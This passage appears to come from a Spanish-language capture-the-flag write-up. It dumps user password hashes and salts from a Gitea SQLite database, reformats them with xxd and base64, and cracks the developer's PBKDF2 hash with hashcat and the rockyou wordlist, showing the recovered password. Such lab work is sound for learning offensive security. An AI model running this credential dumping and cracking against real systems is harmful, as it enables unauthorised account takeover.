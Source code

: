 abrir la base de datos en la terminal, vamos a usar:
```bnash
mysqlite3 gitea.db
```
y dentro de la base de datos para ver los hashes de usuario:
```
##activar cabeceras
.headers on
select * from user;
select name, passwd, passwd_hash_algo,salt from user;
```

tendremos:
```bash
administrator|cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136|pbkdf2$50000$50|2d149e5fbd1b20cf31db3e3c6a28fc9b
developer|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56|pbkdf2$50000$50|8bf3e3452b78544f8bee9400d6936d34
```

este patrón de hash y que esta relacionado a gitea me recuerda a una maquina en la que había que crakear un hash almacenado de manear incorrecta, (exactamente la maquina compiled), al volver allí vi que es el mismo patrón en cual se hace tambien referencia en un post de hashcat:
https://hashcat.net/forum/thread-8391-post-44775.html#pid44775

así que debemos reconstruir el hash:

```bash
echo '8bf3e3452b78544f8bee9400d6936d34' | xxd -r -p | base64
echo 'e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56' | xxd -r -p | base64
```
estos comandos, van a llevar los hashes a su base binaria, para a partir de alli convertirlo a base64 que es el formato que nos pide hashcat

y finalmente lo armamos:
```
sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=
```

usando hashcat:
```bash
hashcat  hash /usr/share/wordlists/rockyou.txt -m 10900
```

aunque probé ambos hashes, el de developer me ha dado resultado:
```bash
hashcat (v6.2.6) starting
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344390
* Bytes.....: 139921519
* Keyspace..: 14344390

sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=:25282528
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 10900 (PBKDF2-HMAC-SHA256)
Hash.Target......: sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqc...lM+1Y=
Time.Started.....: Thu May  1 11:24:57 2025 (15 secs)
Time.Estimated...: Thu May  1 11:25:12 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      381 H/s (5.08ms) @ Accel:16 Loops:1024 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
```